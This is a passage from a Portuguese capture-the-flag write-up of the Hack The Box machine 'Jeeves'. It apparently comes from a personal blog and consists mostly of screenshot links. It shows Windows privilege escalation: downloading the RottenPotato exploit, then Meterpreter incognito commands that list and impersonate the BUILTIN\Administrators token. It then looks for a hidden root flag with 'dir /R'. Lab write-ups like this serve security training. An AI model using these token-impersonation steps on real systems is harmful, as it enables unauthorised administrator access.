 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_rotten.png)

> https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_rotten1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u6.png)

Agora com o `incognito` carregamos ele para ver todos os tokens que temos

`load incognito`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u7.png)

Listamos todos os tokens com o comando `list_tokens -g`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u8.png)

Verificamos que não tem nenhum token impersonation de administrador, então com o JuicyPotato.exe que baixamos, executamos ele

`execute -cH -f rottenpotato.exe`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u9.png)

Listamos todos os tokens com o comando `list_tokens -g`, e vemos que temos tokens agora de administrador

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u10.png)

Agora é só habilitar o token que conseguimos

`impersonate_token "BUILTIN\\Administrators"`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u11.png)

Confirmando, viramos root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_u12.png)

## Pegando flag de user e root

Agora é só pegar as flags de user e root

Ao entrarmos na pasta do root, vemos que não existe root.txt, só um arquivo hm.txt, então vemos do que se trata

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J-root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J-root1.png)

Bom, pelo que parece está oculta ou algo assim, com o `dir /R` verificamos mais a fundo os arquivos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J-root2.png)
